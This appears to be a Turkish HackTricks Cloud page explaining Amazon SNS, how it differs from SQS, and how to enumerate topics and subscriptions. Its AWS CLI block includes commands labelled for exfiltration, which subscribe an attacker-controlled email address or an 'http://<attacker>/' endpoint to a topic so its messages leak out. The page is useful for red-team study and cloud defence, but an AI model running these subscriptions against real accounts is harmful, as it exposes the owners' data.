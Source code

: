 # AWS - SNS Enum

<details>

<summary><strong>Sıfırdan kahraman olmak için AWS hackleme öğrenin</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Kırmızı Takım Uzmanı)</strong></a><strong>!</strong></summary>

HackTricks'ı desteklemenin diğer yolları:

* **Şirketinizi HackTricks'te reklam görmek istiyorsanız** veya **HackTricks'i PDF olarak indirmek istiyorsanız** [**ABONELİK PLANLARI**]'na göz atın (https://github.com/sponsors/carlospolop)!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**PEASS Ailesi'ni**](https://opensea.io/collection/the-peass-family) keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonumuz
* **Katılın** 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) veya bizi **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** takip edin.**
* **Hacking püf noktalarınızı paylaşarak PR'lar göndererek** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına katkıda bulunun.

</details>

## SNS

Amazon Simple Notification Service (Amazon SNS), **tamamen yönetilen bir mesajlaşma servisi** olarak tanımlanmaktadır. Hem **uygulama-uygulama** (A2A) hem de **uygulama-kullanıcı** (A2P) iletişim türlerini destekler.

A2A iletişim için temel özellikler arasında **yayın/abone (pub/sub) mekanizmaları** bulunmaktadır. Bu mekanizmalar, yüksek verimlilik sağlamak için kritik olan **konuları** tanıtır. Bu özellik, dağıtılmış sistemler, mikroservisler ve olay odaklı serverless mimarileri içeren senaryolarda oldukça avantajlıdır. Bu konuları kullanarak, yayıncı sistemler mesajları **geniş bir abone sistem yelpazesi**ne etkin bir şekilde dağıtabilir, fanout mesajlaşma desenini kolaylaştırır.

### **SQS ile Farkı**

**SQS**, **kuyruk tabanlı** bir servistir ve **noktadan-noktaya** iletişime izin vererek mesajların **tek bir tüketici** tarafından işlenmesini sağlar. **En az bir kez teslimat** sunar, standart ve FIFO kuyrukları destekler ve mesajların yeniden deneme ve gecikmeli işleme için saklanmasına izin verir.\
Öte yandan, **SNS** bir **yayın/abone tabanlı servistir** ve **birçok kişiye** iletişimi sağlayarak mesajları **çoklu abonelere** aynı anda yayınlar. **E-posta, SMS, Lambda fonksiyonları ve HTTP/HTTPS** gibi çeşitli abonelik uç noktalarını destekler ve hedeflenen mesaj iletimi için filtreleme mekanizmaları sağlar.\
Her iki servis de dağıtılmış sistemlerde bileşenler arasındaki bağı koparmayı sağlarken, SQS kuyruk tabanlı iletişime odaklanırken, SNS olay odaklı, fanout iletişim desenlerine vurgu yapar.

### **Numaralandırma**
```bash
# Get topics & subscriptions
aws sns list-topics
aws sns list-subscriptions
aws sns list-subscriptions-by-topic --topic-arn <arn>

# Check privescs & post-exploitation
aws sns publish --region <region> \
--topic-arn "arn:aws:sns:us-west-2:123456789012:my-topic" \
--message file://message.txt

# Exfiltrate through email
## You will receive an email to confirm the subscription
aws sns subscribe --region <region> \
--topic-arn arn:aws:sns:us-west-2:123456789012:my-topic \
--protocol email \
--notification-endpoint my-email@example.com

# Exfiltrate through web server
## You will receive an initial request with a URL in the field "SubscribeURL"
## that you need to access to confirm the subscription
aws sns subscribe --region <region>\
--protocol http \
--notification-endpoint http://<attacker>/ \
--topic-arn <arn>
```
{% hint style="danger" %}
**Not:** Eğer konu **FIFO türünde ise**, yalnızca **SQS** protokolünü kullanan aboneler kullanılabilir (HTTP veya HTTPS kullanılamaz).

Ayrıca, `--topic-arn` içinde bölge bulunsa bile doğru bölgeyi **`--region`** içinde belirttiğinizden emin olun, aksi takdirde erişiminiz olmadığına dair bir hata alırsınız ancak sorun bölgededir.
{% endhint %}

#### Kimlik Doğrulamasız Erişim

{% content-ref url="../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md" %}
[aws-sns-unauthenticated-enum.md](../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md)
{% endcontent-ref %}

#### Yetki Yükseltme

{% content-ref url="../aws-privilege-escalation/aws-sns-privesc.md" %}
[aws-sns-privesc.md](../aws-privilege-escalation/aws-sns-privesc.md)
{% endcontent-ref %}

#### Saldırı Sonrası

{% content-ref url="../aws-post-exploitation/aws-sns-post-exploitation.md" %}
[aws-sns-post-exploitation.md](../aws-post-exploitation/aws-sns-post-exploitation.md)
{% endcontent-ref %}

#### Kalıcılık

{% content-ref url="../aws-persistence/aws-sns-persistence.md" %}
[aws-sns-persistence.md](../aws-persistence/aws-sns-persistence.md)
{% endcontent-ref %}

## Referanslar

* [https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/](https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/)

<details>

<summary><strong>Sıfırdan kahraman olana kadar AWS hacklemeyi öğrenin</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks'i desteklemenin diğer yolları:

* **Şirketinizi HackTricks'te reklamını görmek istiyorsanız** veya **HackTricks'i PDF olarak indirmek istiyorsanız** [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**The PEASS Family'yi**](https://opensea.io/collection/the-peass-family) keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonumuzu
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya bizi **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'da takip edin.**
* **Hacking püf noktalarınızı paylaşarak PR'lar göndererek** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına katkıda bulunun.

</details>
